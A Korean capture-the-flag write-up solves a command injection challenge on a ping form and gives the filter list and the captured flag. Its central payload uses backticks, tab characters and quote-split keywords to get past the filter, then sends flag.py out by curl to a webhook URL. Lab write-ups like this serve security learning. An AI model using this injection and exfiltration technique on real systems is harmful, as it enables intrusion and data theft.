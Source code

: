 # CMDI (Adv)
CMDI 문제와 똑같지만 필터링이 몇개 더 추가된 문제이다.

이번 문제의 필터링은 ['[','$','cat','flag.py','"','*','?',' ']이다.

`cmd = f'ping -c 3 "{host}"'` 파이썬에서의 입력은 이렇게 되는데, Dquote(")가 필터링 되어 문자열 안에 항상 남아있어야 하는 문제이다.

문자열 안에서 Command를 실행할 수 있는 방법은 여러가지가 있는데, 가장 유명하고 좋은 것은 $()이다.

하지만 Dollar($)가 필터링 되어 사용할 수 없다.

그래서 찾아낸 것이 Back quote(`)이다. 문자열 안에서 Back quote 안에 Command를 작성할 경우 같이 실행된다.

단, 원래 실행될 명령어가 실패할 경우 실행되지 않는다.

```
URL Encode:
8.8.8.8`curl%09https://webhook.site/webhook-id%09-d%09\`c'a't%09fl'a'g.py|base64\``

URL Decode:
8.8.8.8`curl	https://webhook.site/webhook-id	-d	\`c'a't	fl'a'g.py|base64\`
```

위와 같이 코드를 작성하였다.
 
White Space가 필터링이기 때문에 `%09`(Tab)으로 우회하였고, curl에서 POST로 flag 값을 전달하기 위해 `cat flag.py`를 Back quote 내에서 한번 더 선언했어야 했는데 이미 Back quote 안에서 명령어를 실행 중이였기에 `\\``로 우회하였다. 그리고 base64 encoding을 하여 flag 값을 전달받았다.

## Flag
flag{are_you_the_master_of_command_injection?}
